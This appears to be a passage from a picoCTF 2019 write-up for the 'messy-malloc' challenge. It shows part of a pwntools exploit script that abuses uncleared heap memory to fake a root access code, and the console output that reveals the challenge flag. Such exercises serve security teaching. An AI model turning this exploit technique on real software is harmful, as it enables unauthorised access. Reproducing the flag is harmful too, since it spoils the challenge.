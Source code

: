 ```python
def quit(io):
    log.info("Quitting")
    select_menu(io, "quit")

io = start()
login(io, "a"*8 + p64(AC1) + p64(AC2) + "b"*8)
logout(io)
login(io, "A")
print_flag(io)
quit(io)
print io.recvall()
```

Output:

```console
root@kali:/media/sf_CTFs/pico/messy-malloc# python exploit.py
[*] '/media/sf_CTFs/pico/messy-malloc/auth'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Opening connection to 2019shell1.picoctf.com on port 12286: Done
[*] Logging in as aaaaaaaaROOT_ACCESS_CODEbbbbbbbb (6161616161616161524f4f545f4143434553535f434f44456262626262626262)
[*] Logging out
[*] Logging in as A (41)
[*] Printing flag
[*] Quitting
[+] Receiving all data: Done (77B)
[*] Closed connection to 2019shell1.picoctf.com port 12286
picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_8aa9bc45}
```